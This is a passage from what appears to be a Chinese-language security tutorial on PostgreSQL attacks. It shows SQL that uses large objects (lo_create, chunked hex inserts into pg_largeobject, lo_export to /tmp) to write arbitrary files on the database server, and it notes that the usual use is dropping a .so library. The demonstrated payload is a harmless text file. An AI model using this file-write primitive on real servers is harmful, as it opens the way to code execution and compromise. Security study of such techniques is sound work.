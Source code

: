 [![32.png](assets/1698894509-b1ae676e849bc88ae2a8f8de9f38cd47.png)](https://storage.tttang.com/media/attachment/2022/04/13/df3349c8-894a-4fba-bf73-8239ba2a3be9.png)

[![33.png](assets/1698894509-857a51557ca79949cc0e3086a66bcb49.png)](https://storage.tttang.com/media/attachment/2022/04/13/f045198b-d48a-4f72-bc40-503c516806ff.png)

如果内容过多，那么首先创建一个 OID 作为写入的对象，然后通过 0,1,2,3… 分片上传但是对象都为 12345 最后导出到 /tmp 目录下，收尾删除 OID

写的文件每一页不能超过 2KB，所以我们要把数据分段，这里我就不拿 .so 文件为例了，就随便写个 txt 举个例子

```plain
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('666666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('663078', 'hex'));
SELECT lo_export(12345, '/tmp/ffffffff0x.txt');
SELECT lo_unlink(12345);
```

[![11.png](assets/1698894509-08aade033ef9b93db77c346d07d9e584.png)](https://storage.tttang.com/media/attachment/2022/04/13/25826641-84cc-4537-a06a-944dea8f950c.png)
